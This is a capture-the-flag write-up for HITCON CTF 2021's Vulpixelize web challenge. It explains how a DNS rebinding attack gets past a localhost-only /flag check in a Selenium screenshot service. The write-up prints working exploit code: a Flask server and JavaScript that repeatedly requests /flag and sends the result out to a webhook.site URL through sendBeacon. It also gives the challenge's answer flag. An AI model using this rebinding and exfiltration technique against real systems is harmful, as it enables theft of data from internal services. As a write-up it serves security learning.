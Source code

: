 ```yaml
---
title: Vulpixelize - HITCON CTF 2021
date: 2021-12-05 21:24:04
author: Yadhu Krishna M
author_url: https://twitter.com/YadhuKrishna_
categories:
  - Web
tags:
  - DNS Rebinding
  - HITCONCTF
---
```


**tl;dr**

+ Use DNS Rebinding attack to read flag from `/flag` endpoint.

<!--more-->

**Challenge Points**: 232
**No. of solves**: 41
**Solved by**: [Yadhu Krishna M](https://twitter.com/YadhuKrishna_), [1nt3rc3pt0r](https://twitter.com/_1nt3rc3pt0r_)

## Challenge Description

Can you break it?

**Source Code:** [Here](https://github.com/orangetw/My-CTF-Web-Challenges/tree/master/hitcon-ctf-2021/Vulpixelize)

## Analysis

We are given an application that generates a pixelized screenshot of a given webpage.

![](screenshot.png)

There is a flag endpoint that returns the flag only if the remote address is `127.0.0.1`. 

```python=
@app.route('/flag')
def flag():
    if request.remote_addr == '127.0.0.1':
        return message(FLAG)
    return message("allow only from local")
```

It is possible to get the pixelated screenshot of the flag by submitting http://localhost:8000/flag as the URL.

The application uses Selenium to visit the given URL to screenshot it. The screenshot is resized using PIL library.

```python
@app.route('/submit', methods=['GET'])
def submit():
    path = 'static/images/%s.png' % uuid.uuid4().hex
    url  = request.args.get('url')
    if url:
        # secrity check
        if not url.startswith('http://') and not url.startswith('https://'):
            return message(msg='malformed url')

        # access url
        try:
            driver.get(url)
            data = driver.get_screenshot_as_png()
        except common.exceptions.WebDriverException as e:
            return message(msg=str(e))

        # save result
        img = Image.open(io.BytesIO(data))
        img = img.resize((64,64), resample=Image.BILINEAR)
        img = img.resize((1920,1080), Image.NEAREST)
        img.save(path)
        
        return message(msg=path)
    else:
        return message(msg="url not found :(")
```

Upon examining the source code further, we find that the webpage that selenium has opened will be left unclosed. This means that it is possible to execute JavaScript for until the deployment expires. 


## Exploit

We use DNS rebinding attack to read the flag from localhost. DNS rebinding attack can be used to bypass Same-Origin policies implemented by the browser. 

Here, we use a DNS rebinding service, https://lock.cmpxchg8b.com/rebinder.html to switch between two IPs, one being the IP of the exploit server, and the other being `0.0.0.0`. The rebinder has a short TTL and it switches between these two IPs randomly. 

The exploit server contains the following code. 

```python=
# Exploit Server
from flask import Flask, render_template

app = Flask(__name__)

@app.route("/")
def index():
    return render_template("index.html")


@app.route("/flag")
def flag():
    return "noflag"

app.run(host="0.0.0.0", port=8000, debug=True)
```

```html=
<html>
    <script>
        const host = "http://9843a2a4.00000000.rbndr.us:8000"; 
        let count = 0;

        setInterval(function(){ 
            if (count != 100) {
                var req = new XMLHttpRequest();
                req.open('GET', `${host}/flag`, false);
                req.send(null);
                if(req.status == 200) 
                {
                    navigator.sendBeacon("https://webhook.site/<webhook_id>", req.responseText)
                }
                count ++; 
            }
        }, 20000);
    </script>
</html>
```

The exploit works in three steps:
1. The URL http://9843a2a4.00000000.rbndr.us:8000 is submitted to the application. The rebinder first resolves to IP address of the exploit server, and the JavaScript is loaded in the selenium browser.
2. The JS code continously makes XHR requests to `/flag`, and sends the result to the webhook URL. 
3. At a certain point of time, the rebinder switches the IP to 0.0.0.0. This causes an XHR request to be sent to http://0.0.0.0:8000/flag instead of the exploit server, bypassing SOP. This returns the actual flag to the webhook URL. 

## Flag

```
hitcon{1-1-4-1-6-1-e-9-f-9-4-c-7-3-e-4-9-7-a-7-5-d-4-6-6-c-6-3-3-7-f-4}
```